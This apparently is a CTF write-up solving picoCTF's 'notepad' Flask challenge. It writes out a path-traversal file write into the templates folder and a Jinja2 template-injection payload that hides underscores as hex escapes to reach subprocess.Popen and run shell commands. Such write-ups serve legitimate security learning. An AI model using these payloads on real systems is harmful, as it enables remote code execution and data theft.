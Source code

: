 +++
title = "picoCTF - notepad"
tags = [
    "ctf"
]
date = "2022-03-26"
toc = true
+++

# Premise

We're given a service that will take abitrary input, and render it as an HTML page.

There are a few restrictions:
- Content cannot be longer than 512 characters
- Content cannot include `_` or `/` characters

Lastly, from the `Dockerfile` we know that the flag is going to have an arbtirary name _starting with_ `flag-`.

# Examining the tarball

This challenge comes with a tarball that contains the source code so we can do some white box analysis of how all of this works.

At a high level, we can see that this is a Flask app (SSTI...?), and that we've got a flag, and `static` and `templates/errors` directories.

From `app.py`, we can see how some of the application logic is enforced:

```
def create():
    content = request.form.get("content", "")
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
```

We're taking arbitrary input from the form in `index.html`, checking if it contains `_` or `/` (throw a `bad_content` error if so), then checking if it is > 512 charactersx in length (throw a `long_content` error if so.

From there, a name for the resultant file is generated using the _first 128 characters of the content_ (!!), and then an arbitrary random suffix to avoid collisions.

Lastly, the file is written out, and the user is redirected to it.

# Where do we start?

First off, since we're generating a filename using only the first 128 characters, we can use that as padding, e.g. content of `12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678foobarbaz` will give us a file name of `12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678-pGVBCkNvTLY.html`. For whatever we want to include so that it won't break the URL (e.g. if we wanted to use iframes to try to retrieve other content, relative pages, etc...). This may or may not be useful, but at face value cannot be used to retrieve content outside of the `static` dir.

If we try to do something simple like creating a new file outside of the `static` subdir, we'll just get a 500 error. For example, submitting content of `..\templates\foo.html` just results in `Internal Server Error` and no file creation. Similarly, attempts at LFI outside of the scope of the `static` dir through `iframes` will 404.

The attack surface as far as I can see it at this point is to try to do something like add a new error page, or overwrite the existing error pages (this should be possible due to how the file is being opened, `w`), with content that will allow us to gain further access.

# What does traffic look like?

If we proxy traffic through Burp (or anything similar), we're just doing a basic POST with a `content` parameter:

```
POST /new HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://localhost:8000
Connection: close
Referer: http://localhost:8000/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1


content=foobar
``` 

Good news is this is easy enough for us to play with in Repeater & Intruder if we wanted to, but in retrospect it won't save much time.

# Error templates

Another factor here is that looking at the error templates, these are included _based on a URL parameter_, so again, if we can create a new template, it's trivial for us to call it. 

For example, running the docker container, if we write out an arbitrary `templates/errors/foo.html` file that contains whatever we want, we can just call it from `http://localhost:8000/?error=foo`.

But how do we do this...?

The first lead is that the application is using `url_fix`, which is going to change `\` characters to `/` for us, so that part of the content filtering is irrelevant. If we try a payload of `..\templates\errors\` we get some curious behaviour... the returned URL is `http://localhost:8000/templates/errors/-AkAtr82ZpXU.html`, and if we look at the local filesystem:

```
root@bb0be7618f85:/app# ls templates/errors/
-AkAtr82ZpXU.html  bad_content.html  long_content.html
```

We have a way to create arbitrary files! We also know that we can manage the creation of the filename, and that content beyond the 128th character (but under 512) is entirely under our control.

Let's try a payload of:

```
..\templates\errors\12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678

foobarbaz
```

Predictably, this will 404, but we get a returned URL of `http://localhost:8000/templates/errors/123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678-ZyKmdETiOlI.html`. Since we know this file _will_ exist on the file system, we can also now try calling it as an error since we know the filename in whole by hitting `http://localhost:8000/?error=123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678-ZyKmdETiOlI`.

Sure enough, the full content is returned in the page content!

```
 error: 123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678-ZyKmdETiOlI
..\templates\errors\12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678 foobarbaz
make a new note
...
```

# SSTI?

We've got the ability to create arbitrary files, with content we _largely_ control. Let's explore this further and see what vulnerabilities there are. To start, let's try a typical `{{ 7 * 7 }}` payload after our padding.

The rendered content?

```
..\templates\errors\12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678 49 
```

Note that 49! Woohoo! Alright, we know we can't include `_` characters in the content, but can we encode this in a different way? Perhaps a hex `\x5f`? Yes!

```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
```

Sure enough, this also includes `<class 'subprocess.Popen'>` (position 273 in my case), so we're in business.

# Time for RCE!

With the hex form of `_` unfiltered, and access to `subprocess.Popen` we can use the following payload to proce out RCE:

```
..\templates\errors\123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(273)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```

Pass the resulting error page filename (minus URL) into `localhost:8000/?error=<namehere>`, and we get:

```
 error: 123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678-gt_Z1Bro-iE
..\templates\errors\123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678 app.py flag-bae52e25-3397-45de-8f53-f9e9a1d6a416.txt static templates 
```

And with one final tweak to run `cat flag*` instead of `ls`:

```
 error: 123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678-WRn7y2p0oMg
..\templates\errors\123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678 foobarbaz 
```

```
root@bb0be7618f85:/app# cat flag-bae52e25-3397-45de-8f53-f9e9a1d6a416.txt 
foobarbaz
```

I'll leave you to get the flag for yourself on the live system ;)

Helpful reference:
- [Jinja2 SSTI filter bypasses](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f)

